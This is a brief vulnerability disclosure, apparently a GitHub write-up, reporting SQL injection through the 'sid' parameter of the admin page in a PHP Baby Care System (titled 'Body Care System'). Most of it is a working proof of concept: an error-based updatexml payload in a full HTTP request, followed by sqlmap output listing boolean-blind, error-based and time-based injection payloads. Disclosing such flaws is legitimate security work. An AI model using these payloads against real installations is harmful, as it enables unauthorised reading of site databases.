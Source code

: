 ## Body Care System has SQL injection vulnerability

vendor: https://www.sourcecodester.com/php/14622/baby-care-system-phpmysqli-full-source-code.html

Vulnerability file: /BabyCare/admin/siteoptions.php&social=remove&sid=2

![image](https://user-images.githubusercontent.com/54017627/161355498-1ebd5765-a41e-496d-ad08-7c78cfce40ca.png)

Vulnerability location: /BabyCare/admin.php?id=siteoptions&social=remove&sid=2 //sid is Injection point

[+]Payload:  /BabyCare/admin.php?id=siteoptions&social=remove&sid=2%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+ //sid is Injection point

```sql
GET /BabyCare/admin.php?id=siteoptions&social=remove&sid=2%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+ HTTP/1.1
Host: 192.168.1.19
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=h48mjnelp4g0935821l2k3g5ne
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/161355323-758b342d-1772-410e-8f49-43541b6ad08f.png)

```sql
---
Parameter: sid (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: id=siteoptions&social=remove&sid=2' RLIKE (SELECT (CASE WHEN (2073=2073) THEN 2 ELSE 0x28 END))-- VDjh

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: id=siteoptions&social=remove&sid=2' AND EXTRACTVALUE(4201,CONCAT(0x5c,0x7171716b71,(SELECT (ELT(4201=4201,1))),0x7162707a71))-- YSja

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=siteoptions&social=remove&sid=2' AND (SELECT 2185 FROM (SELECT(SLEEP(5)))SlaH)-- rcEz
---
```
![image](https://user-images.githubusercontent.com/54017627/161355507-a2606a11-a320-4575-a4bf-48745f08b463.png)
